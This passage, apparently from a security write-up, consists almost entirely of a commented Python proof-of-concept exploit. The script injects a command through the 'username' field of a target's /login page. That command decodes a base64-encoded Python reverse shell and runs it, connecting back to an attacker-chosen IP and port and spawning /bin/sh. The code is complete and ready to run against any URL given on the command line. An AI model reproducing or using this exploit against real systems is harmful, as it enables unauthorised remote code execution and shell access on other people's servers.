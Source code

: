 -   The POC exploit is below.
    -   +Note+: I have added comments to it to explain what is happening.



```python
import sys; # import system to take CLI args.
import os; # import OS to directly interact wtih the operating system.
import base64; # import base64 for encoding payload.

# Declare Main Function/Logic
def main():
    # Declare variables
	listening_IP = None
	listening_PORT = None
	target_URL = None

    # Simple if statement that checks if all CLI args are provided, if not it errors our and prints a message.
	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)

    # Takes the CLI args from the user (appends "/login" to the target url)
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"

    # Prints a message stating that the exploit is running.
	print("Running exploit on " + str(target_URL))

    # Runs the curl_cmd function with the provided user variables.
	curl_cmd(listening_IP, listening_PORT, target_URL)

# Define the curl_cmd function, which takes 3 arguments. The users IP, the PORT & the target_url.
def curl_cmd(my_ip, my_port, target_url):

    # Define the payload.
    # This is a simple python reverse shell, which imports socket, os & pty.
    # It takes the user provided args listening_IP & listening_PORT and they are passed as my_ip, my_port as f-string args
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

    # It encodes the payload in base64 format.
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64

    # It runs a curl command, and passes the data via the `username` parameter where it echoes out the payload, base64 decrypts it and then passes it for a subshell for execution.
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```
